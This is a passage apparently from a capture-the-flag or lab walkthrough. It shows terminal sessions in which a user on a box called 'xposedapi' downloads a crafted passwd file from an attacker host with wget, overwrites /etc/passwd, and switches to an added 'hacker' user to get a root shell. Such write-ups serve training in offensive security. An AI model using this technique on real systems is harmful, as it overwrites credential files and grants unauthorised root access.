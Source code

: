 ```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ wget http://192.168.118.5/passwd -O /etc/passwd
<pp$ wget http://192.168.118.5/passwd -O /etc/passwd
--2021-03-12 08:50:29--  http://192.168.118.5/passwd
Connecting to 192.168.118.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1462 (1.4K) [application/octet-stream]
Saving to: '/etc/passwd'

/etc/passwd         100%[===================>]   1.43K  --.-KB/s    in 0s      

2021-03-12 08:50:29 (224 MB/s) - '/etc/passwd' saved [1462/1462]
```

All that is left to do now is log in as the new user.

```
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ whoami
whoami
clumsyadmin
clumsyadmin@xposedapi:/home/clumsyadmin/webapp$ su hacker
su hacker
Password: pass123

root@xposedapi:/home/clumsyadmin/webapp# whoami
whoami
root
root@xposedapi:/home/clumsyadmin/webapp#
```